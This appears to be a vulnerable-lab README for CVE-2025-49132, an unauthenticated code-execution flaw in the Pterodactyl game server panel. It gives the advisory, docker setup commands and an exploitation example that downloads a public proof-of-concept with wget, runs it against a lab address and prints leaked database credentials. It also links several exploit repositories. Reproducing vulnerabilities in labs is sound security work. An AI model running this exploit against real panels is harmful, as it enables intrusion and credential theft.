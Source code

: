 # CVE-2025-49132
Pterodactyl is a free, open-source game server management panel. Prior to version 1.11.11, using the /locales/locale.json with the locale and namespace query parameters, a malicious actor is able to execute arbitrary code without being authenticated. With the ability to execute arbitrary code it could be used to gain access to the Panel's server, read credentials from the Panel's config, extract sensitive information from the database, access files of servers managed by the panel, etc. This issue has been patched in version 1.11.11. There are no software workarounds for this vulnerability, but use of an external Web Application Firewall (WAF) could help mitigate this attack.

## Metrics
CVSSv3: 10.0 (CRITICAL)

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```
## Detection and exploitation example
Using PoC by Zen-kun04:
```shell
wget https://raw.githubusercontent.com/Zen-kun04/CVE-2025-49132/refs/heads/main/CVE-2025-49132_PoC.py

❯ python3 CVE-2025-49132_PoC.py http://172.90.240.2/
http://172.90.240.2/ => vulnforge:vulnforge123@db:3306/panel
```


## Exploits and PoCs
https://github.com/Zen-kun04/CVE-2025-49132  
https://github.com/qiaojojo/CVE-2025-49132_poc  
https://github.com/nfoltc/CVE-2025-49132  

## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2025-49132](https://nvd.nist.gov/vuln/detail/CVE-2025-49132)